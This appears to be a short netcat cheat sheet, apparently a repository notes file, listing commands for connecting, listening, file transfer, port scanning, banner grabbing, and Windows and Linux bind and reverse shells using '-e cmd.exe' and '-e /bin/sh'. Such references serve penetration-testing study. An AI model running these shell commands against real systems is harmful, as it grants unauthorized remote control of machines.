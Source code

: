 #Connect to a TCP Port

```sh
nc -nv <IP Address> <Port>
```
#Listen on a TCP Port

```sh
nc -lvp <port>
```
# Connect and receive a HTTP Page

nc -nv <IP Address> 80
HEAD / HTTP/1.1
Transferring a File

nc -lvp 4444 >output.txt               # Receiving End
nc -nv <IP Address> < input.txt   # Sending End
Set up a Netcat Bind Shell (Windows)

nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444           # Connect to the shell
Set up a Netcat Bind Shell (Linux)

nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444           # Connect to the shell
Set up a Netcat Reverse Shell (Windows)

nc -lvp 443                                             # Attacker listening for connection
nc -nv <IP Address> 443 -e cmd.exe
Set up a Netcat Reverse Shell (Linux)

nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
Netcat as a Port Scanner

nc -z <IP Address> <Port Range in abc - xyz format>
Netcat as a Banner Grabber

echo "" | nc -nv -w1 <IP Address> <Ports>
